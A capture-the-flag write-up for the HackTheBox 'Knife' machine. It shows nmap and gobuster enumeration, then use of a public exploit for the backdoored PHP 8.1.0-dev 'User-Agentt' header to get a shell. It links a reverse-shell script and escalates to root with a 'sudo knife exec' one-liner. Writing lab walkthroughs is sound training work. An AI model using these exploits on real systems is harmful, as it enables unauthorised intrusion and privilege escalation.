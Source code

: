 # Knife - HackTheBox - Easy

## Enumeration
### 01 Nmap scan
```bash
┌──(hanoz㉿kali)-[~/Desktop/htb/challenges/HTBoxes]
└─$ nmap -sV -sC -p22,80 10.10.10.242                                                                          130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-19 19:28 EST
Nmap scan report for 10.10.10.242
Host is up (0.022s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.49 seconds
```
It seems we have a web server, and SSH open, so let's enumerate the web server

### Sub-domains on web-server
```bash
┌──(hanoz㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.242/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/19 19:29:54 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 5815]
/server-status        (Status: 403) [Size: 277] 
                                                
===============================================================
2021/11/19 19:30:01 Finished
===============================================================
```

### Observing the page
So we try and read through the source code of the page, and it seems there is nothing of use there, it's a static page

### Observing in burp
```text
HTTP/1.1 200 OK
Date: Sat, 20 Nov 2021 14:18:44 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Content-Length: 5815
Connection: close
Content-Type: text/html; charset=UTF-8
```
These are the response headers for the page, it seems we are running PHP/8.1.0-dev

Let's check on searchsploit for this and apache 2.4 too. 
```text
┌──(hanoz㉿kali)-[~/Desktop/htb/challenges/HTBoxes]
└─$ searchsploit apache 2.4.41
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                    | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                  | php/remote/29316.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow               | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)         | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)         | unix/remote/47080.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal                | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing                                  | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                          | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / | windows/webapps/42953.txt
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                       | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution   | linux/remote/34.pl
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
There's a few RCE's, but they requre older PHP, and mostly Tomcat vulns, not very interesting, let's check PHP vulns
```html
┌──(hanoz㉿kali)-[~/Desktop/htb/challenges/HTBoxes]
└─$ searchsploit PHP 8.1.0-dev
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
.
.
.
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                | php/webapps/49933.py
.
.
.
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

We found something useful, lets see what it is
```text
PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
```
Sounds like what we want,
let's use it

Okay, we have a shell!
```shell
┌──(hanoz㉿kali)-[~/…/htb/challenges/HTBoxes/knife]
└─$ python3 49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ whoami
james
```

It seems we have a user james. 
```bash
$ cat /home/james/user.txt
****************************

```

The shell however is cap, so let's try and get a better shell

Okay, so after a bit of research, I found a github with the python script for a reverse shell RCE so I'm using that
```url
https://raw.githubusercontent.com/flast101/php-8.1.0-dev-backdoor-rce/main/revshell_php_8.1.0-dev.py
```

Now let's try and get root

So first we do sudo -l
We see we have access to knife
```bash
james@knife:/$ sudo -l 
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Okay, from knife documentation, we see the following article
```text
https://docs.chef.io/workstation/knife_exec/
```

So we can run ruby scripts easily. We construct a basic ruby script to read the root flag, and we pass it

```text
james@knife:/$ sudo /usr/bin/knife exec -E "exec 'cat /root/root.txt'"      
sudo /usr/bin/knife exec -E "exec 'cat /root/root.txt'"
************************************
```

Great! It worked! We can also get root shell, but our objective is already achieved.